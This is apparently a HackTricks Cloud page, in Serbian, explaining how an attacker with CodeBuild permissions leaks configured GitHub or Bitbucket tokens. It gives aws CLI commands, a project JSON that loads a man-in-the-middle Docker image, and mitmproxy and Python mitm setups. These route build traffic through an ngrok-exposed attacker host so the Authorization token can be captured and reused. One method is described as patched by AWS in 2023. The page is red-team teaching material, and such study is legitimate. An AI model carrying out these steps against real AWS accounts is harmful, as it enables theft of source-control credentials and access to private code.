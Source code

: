 # AWS Codebuild - Curenje tokena

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Pronalaženje Github/Bitbucket konfigurisanih tokena

Prvo, proverite da li postoje konfigurisani izvorni kredencijali koje biste mogli da procurite:
```bash
aws codebuild list-source-credentials
```
### Putem Docker slike

Ako otkrijete da je autentifikacija, na primer za Github, podešena u nalogu, možete **izfiltrirati** taj **pristup** (**GH token ili OAuth token**) tako što ćete naterati Codebuild da **koristi određenu Docker sliku** za pokretanje izgradnje projekta.

Za tu svrhu možete **kreirati novi Codebuild projekat** ili promeniti **okruženje** postojećeg kako biste postavili **Docker sliku**.

Docker sliku koju možete koristiti možete pronaći na [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Ovo je veoma osnovna Docker slika koja će postaviti **promenljive okruženja `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. To će vam omogućiti da presretnete većinu saobraćaja sa hosta koji je naznačen u **`https_proxy`** i **`http_proxy`** i da verujete SSL CERT koji je naznačen u **`SSL_CERT_FILE`**.

1. **Kreirajte i otpremite sopstvenu Docker MitM sliku**
* Pratite uputstva u repozitorijumu da biste postavili IP adresu vašeg proksija i postavili SSL sertifikat i **izgradili Docker sliku**.
* **NE POSTAVLJAJTE `http_proxy`** kako ne biste presreli zahteve ka metapodacima.
* Možete koristiti **`ngrok`** kao što je `ngrok tcp 4444` da biste postavili proksi na vašem hostu.
* Kada izgradite Docker sliku, **otprenite je na javni repozitorijum** (Dockerhub, ECR...)
2. **Postavite okruženje**
* Kreirajte **novi Codebuild projekat** ili **izmenite** okruženje postojećeg.
* Postavite projekat da koristi **prethodno generisanu Docker sliku**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Postavite MitM proksi na svom hostu**

* Kao što je naznačeno u **Github repozitorijumu**, možete koristiti nešto poput:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Korišćena je verzija **mitmproxy 9.0.1**, prijavljeno je da ovo možda neće raditi sa verzijom 10.
{% endhint %}

4. **Pokrenite izgradnju i zabeležite akreditive**

*   Možete videti token u zaglavlju **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Ovo takođe može biti urađeno sa aws cli-om sa nečim kao što je

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Preko HTTP protokola~~

{% hint style="success" %}
**Ova ranjivost je ispravljena od strane AWS-a negde tokom nedelje 20. februara 2023. godine (mislim da je bilo u petak). Dakle, napadač više ne može da je zloupotrebi :)**
{% endhint %}

Napadač sa **povišenim dozvolama u CodeBuild-u može otkriti Github/Bitbucket token** koji je konfigurisan ili, ako su dozvole konfigurisane putem OAuth-a, **privremeni OAuth token koji se koristi za pristup kodu**.

* Napadač može dodati okružne promenljive **http\_proxy** i **https\_proxy** u CodeBuild projekat koje pokazuju na njegovu mašinu (na primer `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Zatim, promeniti URL github repozitorijuma da koristi HTTP umesto HTTPS, na primer: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Zatim, pokrenuti osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji je označen promenljivama proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Konačno, kliknite na **Izgradite projekat**, **poverenja** će biti **poslata u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sada će napadač moći da koristi token sa svoje mašine, da izlista sve privilegije koje ima i da ih zloupotrebi lakše nego korišćenjem CodeBuild servisa direktno.
{% endhint %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

